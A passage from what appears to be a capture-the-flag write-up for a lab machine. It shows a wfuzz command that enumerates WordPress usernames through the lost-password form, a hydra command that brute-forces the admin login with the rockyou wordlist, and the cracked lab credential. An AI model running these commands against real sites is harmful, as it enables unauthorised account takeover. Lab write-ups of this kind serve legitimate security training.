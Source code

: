 ![5f5bf491d2682c9ada4630915f519139.png](https://raw.githubusercontent.com/mor88888888/writeups/main/internal/_resources/5f5bf491d2682c9ada4630915f519139.png)

Let's take advantage of this:
https://wfuzz.readthedocs.io/en/latest/user/basicusage.html
```
wfuzz -c -z "file,/usr/share/wordlists/wfuzz/others/names.txt" --sc 200 --hs "There is no account with that username or email address" -d "user_login=FUZZ&redirect_to=&wp-submit=Get+New+Password" http://$ip/blog/wp-login.php?action=lostpassword -v
```

We only discover the **admin** user, so let's try to guess the password:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -v $ip http-post-form '/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:is incorrect'
```

```
[80][http-post-form] host: internal.thm   login: admin   password: my2boys
```